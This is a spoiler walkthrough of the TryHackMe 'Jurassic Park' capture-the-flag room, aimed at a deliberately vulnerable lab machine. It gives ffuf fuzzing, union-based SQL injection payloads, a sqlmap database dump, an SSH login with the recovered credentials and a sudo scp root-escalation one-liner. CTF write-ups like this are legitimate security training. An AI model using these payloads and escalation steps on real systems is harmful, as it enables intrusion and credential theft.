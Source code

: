 # Jurassic Park CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Jurassic Park** CTF challenge on [TryHackMe](https://tryhackme.com/room/jurassicpark). 
---

we see open ports 22 and 80

![scn](imgs/scn.png "scn")

from feroxbuster we see some hidden files 

![fr](imgs/fr.png "fr")

/robots.txt nothing interesting just some references 

![rb](imgs/rb.png "rb")

/delete might suggest some MySQL database

![de](imgs/de.png "de")

main page we see a link to a shop

![m](imgs/m.png "m")

in /item.php we see parameter `id`

![id](imgs/id.png "id")

we can try to fuzz this parameter to test for IDOR first

```
ffuf -w /usr/share/seclists/Fuzzing/3-digits-000-999.txt -u http://$IP/item.php\?id\=FUZZ -fs 81
```

![ff](imgs/ff.png "ff")

in ?id=005 we see diffrent site with some more hints about WAF and blocked characters

![5](imgs/5.png "5")

in ?id=100 we see other diffrent site with weird values

![1](imgs/1.png "1")

from ZAP Active Scan we know about potential SQLi

![za](imgs/za.png "za")

after fuzzing SQLi we see that some payloads are reflected

![re](imgs/re.png "re")

we see that if we use `'` there is indeed some protection against attacks

![wa](imgs/wa.png "wa")

we can try union based attack by using payload: `100 union select 1`

![un](imgs/un.png "un")

we see an error but we might be on right path we need to adjust column number

after adjusting the number we got working response that gives us some clue about database, working payload 

```
?id=100 union select 1,2,3,4,5
```

![unn](imgs/unn.png "unn")

now we can use functions like: `database()` and `version()` to gain more info about db

```
?id=100 union select 1,2,3,version(),5

?id=100 union select 1,2,3,database(),5
```

![ver](imgs/ver.png "ver")

![db](imgs/db.png "db")

we can test further with sqlmap

```
sqlmap -u "http://10.10.16.110/item.php?id=100" --dump --batch --dbs park
```

![dbb](imgs/dbb.png "dbb")

we found passwords, we also know about username dennis from pages that we fuzzed

![ssh](imgs/ssh.png "ssh")

after logging as dennis via ssh we can grab first flag

![f1](imgs/f1.png "f1")

by looking at the `.bash_history` we can see flag number 3

![f3](imgs/f3.png "f3")

we can look into `sudo -l` output, we also can check GTFObins for way to gain root access

![sd](imgs/sd.png "sd")

![gt](imgs/gt.png "gt")

we can easily replicate the steps to become root

```
$ TF=$(mktemp)
$ echo 'sh 0<&2 1>&2' > $TF
$ chmod +x "$TF"
$ sudo scp -S $TF x y:
```

![rt](imgs/rt.png "rt")

now we need to find rest of the flags

flag number 5 is in /root

![f5](imgs/f5.png "f5")

to find flag number 2 I used simple find command

```
find / -name "*flag*" 2>/dev/null
```

![f2](imgs/f2.png "f2")

# MACHINE PWNED
